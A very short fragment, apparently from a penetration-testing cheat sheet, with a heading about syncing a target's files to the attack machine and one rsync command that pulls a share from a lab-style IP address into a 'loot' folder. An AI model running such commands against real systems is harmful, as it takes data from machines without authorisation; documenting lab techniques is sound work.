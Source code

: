 ## Sync Target’s File to Attack Machine
```bash
rsync -av rsync://rsync-connect@10.10.10.10/files loot/
```